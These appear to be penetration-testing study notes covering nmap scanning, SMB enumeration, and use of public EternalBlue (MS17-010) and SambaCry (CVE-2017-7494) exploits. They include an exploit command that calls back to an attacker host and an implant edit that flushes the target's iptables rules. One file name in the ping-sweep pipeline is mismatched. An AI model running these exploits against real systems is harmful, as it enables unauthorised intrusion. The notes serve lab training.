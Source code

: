 #### Greppable output parameters
```sh
nmap -v -sn 10.11.1.1-254 -oG pinw-sweep.txt
grep Up ping-sweep.txt | cut -d" " -f 2           # Filters the Up ip addresses only.
```
#### Banner Grabbing / Service enumeration
```sh
nmap -sV -sT -A 10.11.1.220
```
### Nmap Scripting Engine (NSE)

NSE scripts are in `/usr/share/nmap/scripts`.
```sh
nmap 10.11.1.220 --script=smb-os-discovery
nmap --script-help dns-zone-transfer
```

### Vulnerability Scanning with Nmap
```sh
kali@kali:~$ sudo nmap -A -sV --script=default,vuln -p- --open -oN enum/vuln.nmap $IP
```
### Masscan


## SMB 
### SMB Theory
Windows exposes several administrative and hidden shares via SMB by default. Three common shares on Windows machines are:
- **C$**: allows one to access the C Drive on the remote machine.
- **Admin$**: allows one to access the Windows installation directory. 
- **IPC$**: used to facilitate inter-process communication more commonly referred to as IPC.

### SMB Enumeration
The NetBIOS service listens on TCP port 139 as well as several UDP ports. SMB (TCP port 445) and NetBIOS are two separate protocols.

- Using nmap to scan for SMB vulnerabilities
    ```sh
    kali@kali:~$ nmap --script "smb-vuln*" -p445 $IP -oN enum/smb-vuln.nmap
    ```
#### Eternal Blue
- If it is vulnerable to "MS17-010" use [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010). 
  - `python eternal_checker.py $IP`
  - `zzz_exploit.py` works for Windows XP and if the target system has a firewall.
#### Eternal Red
- If it is vulnerable to "SAMBA CVE-2017-7494" use [CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494). 
  - Samba in **4.5.9** version and before that is vulnerable to a remote code execution vulnerability named **SambaCry** (aka **Eternal Red**).
  - `python2 cve_2017_7494.py -t $IP -o1 --rhost=<Kali_IP> --rport=<Kali_Port>`
- It won't work out of the box because iptables (aka, Linux firewall) is blocking the outbound connections. So you need to edit file "implant.c" and add line `system("iptables -F");` between `change_to_root_user();` and `detach_from_parent();`, which removes all the active rules in iptables.
